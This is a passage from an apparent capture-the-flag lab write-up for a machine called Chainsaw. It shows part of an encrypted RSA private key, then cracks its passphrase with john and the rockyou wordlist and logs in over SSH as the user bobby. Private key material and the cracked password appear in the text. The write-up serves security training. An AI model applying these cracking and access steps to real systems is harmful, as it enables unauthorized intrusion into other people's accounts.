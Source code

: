 ```
nJYmkmr3t3qGRzhAETckc8HLE11dGE+l4ba6WBNu15GoEWAszztMuIV1emnt97oM
ImnfontOYdwB6/2oCuyJTif8Vw/WtWqZNbpey9704a9map/+bDqeQQ41+B8ACDbK
WovsgyWi/UpiMT6m6rX+FP5D5E8zrYtnnmqIo7vxHqtBWUxjahCdnBrkYFzl6KWR
gFzx3eTatlZWyr4ksvFmtobYkZVAQPABWz+gHpuKlrqhC9ANzr/Jn+5ZfG02moF/
edL1bp9HPRI47DyvLwzT1/5L9Zz6Y+1MzendTi3KrzQ/Ycfr5YARvYyMLbLjMEtP
UvJiY40u2nmVb6Qqpiy2zr/aMlhpupZPk/xt8oKhKC+l9mgOTsAXYjCbTmLXzVrX
15U210BdxEFUDcixNiwTpoBS6MfxCOZwN/1Zv0mE8ECI+44LcqVt3w==
-----END RSA PRIVATE KEY-----

```

### Crack Password

I’ll crack the password on the key with `john` / `rockyou`:

```

root@kali# base64 -d bobby.key.enc.b64 > bobby.key.enc
root@kali# /opt/john/run/ssh2john.py bobby.key.enc > bobby.key.enc.john
root@kali# /opt/john/run/john bobby.key.enc.john --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
jackychain       (bobby.key.enc)
1g 0:00:00:14 DONE (2019-07-06 17:31) 0.06770g/s 971001p/s 971001c/s 971001C/s     1990..*7¡Vamos!
Session completed

```

I’ll make a copy of the key with no password:

```

root@kali# openssl rsa -in bobby.key.enc -out ~/id_rsa_chainsaw_bobby
Enter pass phrase for bobby.key.enc:
writing RSA key

```

### SSH Shell

Now I can connect as bobby:

```

root@kali# ssh -i ~/id_rsa_chainsaw_bobby bobby@10.10.10.142
bobby@chainsaw:~$ id
uid=1000(bobby) gid=1000(bobby) groups=1000(bobby),30(dip)

```
